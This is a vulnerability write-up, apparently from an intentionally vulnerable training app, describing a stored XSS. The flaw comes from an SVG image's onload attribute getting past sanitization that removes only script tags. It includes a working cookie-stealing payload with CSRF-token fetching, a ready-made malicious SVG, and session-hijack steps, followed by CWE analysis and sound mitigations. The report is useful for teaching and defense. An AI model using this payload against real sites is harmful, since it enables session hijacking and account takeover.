

# Vulnerability 20241206 - Cross-site Scripting (XSS)

## Reasoning Behind the Vulnerability

Our hypothetical development team finally decided to refactor image post submissions to be more robust, when they noticed scammers and malicious actors using the complete lack of image validation to share malware.

Image file MIME types were restricted to a few: JPEG, PNG and SVG. As of now, images are validated down to their magic numbers, though SVG has some additional steps.

Knowing SVG enables the execution of embedded scripts on the browser, script tags were sanitized, alongside blocking the upload of content infected with known XML attacks, such as the billion laughs attack and XXE (eXternal XML entity) attacks. Yet our developers forgot to consider one thing: inline scripting.

Additionally, while debugging another part of the application, a developer misconfigured the web application's defaults, disabling the HttpOnly flag and forgetting to revert this change before pushing it to production. 

Please consult [the auxiliary report](/vuln/deliver4/aux/README.md) for details on this particular misconfiguration, including security impact and recommendations.

## Proof of Concept
The vulnerability is present when a user uploads an SVG file with injected inline ECMAScript on a valid element's event handler attribute (e.g. the "onload" attribute on an image element).

Almost all SVG elements support event handlers, allowing arbitrary inline script execution.

When a potential victim opens this SVG file on a new tab (the SVG file's URI on the website), the inline script is executed depending on which event handler is used and how it is triggered. A particularly useful attribute is "onload", as it executes the payload as soon as the page is rendered, increasing the likelihood of attack occurrence.

### Vulnerable Code Snippet

The vulnerable code is called in [views.py](/app/back/views.py) at line 421 from [file_upload_validation.py](/app/back/file_upload_validation.py) at the `sanitize_svg` fuction.

At views.py
```py
def upload(request):
    if request.method == "POST":
        user = request.user.username
        image = request.FILES.get("uphoto")

        # Validate image
        if image:
            try:
                raw_image = validate_image(image) # Here
                raw_image = BytesIO(raw_image)
                image.file = raw_image
```

At file_upload_validation.py
```py
def sanitize_svg(svg):
    ...
    # Eliminate script tags
    prefind = root.findall('.//{*}script')
    for child in prefind:
        child.getparent().remove(child)
    ...
```
A parsed XML element tree has all of its script elements removed, regardless of namespace, but doesn't sanitize event handler attributes.

### How to Reproduce this Vulnerability:

To demonstrate the danger this vulnerability can represent, we'll also exploit an [HttpOnly misconfiguration](/vuln/deliver4/aux/README.md) to hijack a victim's session and perform unauthorized actions under their identity.

1. Sign-in to the website

2. Write a script that reads the document's cookies, fetches a CSRF token from the main page's post submission form and submits a forged POST request containing the raw cookies as the post's message body.

Check [mallory.js](/vuln/deliver4/mallory.js) for an example.

```js
fetch('/', {
    credentials: 'include', // Include cookies in the request
})
    .then(response => response.text())
    .then(html => {
        // Parse the HTML to extract the CSRF token
        const parser = new DOMParser();
        const doc = parser.parseFromString(html, 'text/html');
        const csrfToken = doc.querySelector('[name=\"csrfmiddlewaretoken\"]').value;

        // Now, use the token to submit the form
        fetch('/upload', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded',
            },
            body: 'csrfmiddlewaretoken='+csrfToken+'&amp;caption=TEST',
            credentials: 'include', // Include cookies in the request
        });
    });
```

3. Pre-process and minify the mallicious script to be inline.

Check [mallory.js](/vuln/deliver4/mallory.js) for a valid pre-processed example.

```js
"fetch('/',{credentials:'include'}).then((e=>e.text())).then((e=>{const t=(new DOMParser).parseFromString(e,'text/html').querySelector('[name=\'csrfmiddlewaretoken\']').value;fetch('/upload',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'csrfmiddlewaretoken='+t+'&amp;caption=TEST',credentials:'include'})}));"
```

4. Write or modify an SVG file to render a valid element with the inline script injected into an event handling attribute (e.g. an image element with an infected "onload" attribute).

Example at [malory.svg](/vuln/deliver4/mallory.svg)

```xml
<svg width="100%" height="100%" viewBox="0 0 100 100"
     xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <circle cx="50" cy="50" r="45" fill="green" id="foo" o="foo"/>
  <image xlink:href="/static/logo.png" height="200"
         onload="fetch('/',{credentials:'include'}).then((e=>e.text())).then((e=>{const t=(new DOMParser).parseFromString(e,'text/html').querySelector('[name=\'csrfmiddlewaretoken\']').value;fetch('/upload',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'csrfmiddlewaretoken='+t+'&amp;caption='+document.cookie,credentials:'include'})}));"
/>
</svg>
```

This SVG draws a green circle, visible when an HTML `img` element sources from it, but when the SVG's URI is loaded, the SVG `image` element executes successfully, displaying the website's icon over the green circle and executing the inline script payload.

5. Upload the SVG file as a post's image attachment.


6. Sign-in as a different user (the victim).

7. Find the attacker's post with the infected SVG (follow the attacker).


8. Open the SVG on a different browser tab. The injected script should execute.


9. Consult the front page and check your most recent post to read your own cookies, including the sessionid.


10. On your attacker account (on a **different browser session**, the victim shouldn't log-out or the session is invalidated), you should be able to view the victim account's most recent post containing the sensitive data.


11. Substitute your cookies with the victim's cookies.



12. Reload the main page, at the root of the website ("/").

13. You should now be logged in as the victim.


## CWE and Security Impact
**CWE-79: Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')**

The Cross-site Scripting weakness is noticeable here as the web application failed to properly neutralize (sanitize) user input (SVG file) during the web page's generation (loading SVG URI), specifically, a failure to neutralize event handler attributes that accept inline scripts from the uploader.

Similarly to most XSS vulnerabilities, this vulnerability allows attackers to compromise all three components of the well-known C.I.A triad. 

Attackers will be able to perform most website actions using a victim's identity, be it interactively (using an hijacked session cookie) or programmatically via the fetch API at the injected scripted. Credential stealing could also occur with a forged false log-in page, giving attackers more authenticated actions to perform if successful.

## Recommendations
- Enable the HttpOnly flag by removing the settings.py override entirely (Django enables this flag by default). This measure is highly effective in most browser scripting engines [CWE-1004](https://cwe.mitre.org/data/definitions/1004.html).
- Do not allow users to upload SVG files.
- Do not validate user-uploaded SVG files based off magic numbers and use a secure XML parser to validate them.
- If restricting SVG file uploads is not possible or favourable, sanitize SVG to remove all script tags, foreignObject tags and event handling attributes. Use a certified or tested library or framework to perform sanitization.
- Implement strict CSP policies to mitigate data accesses and exfiltration in the event of XSS.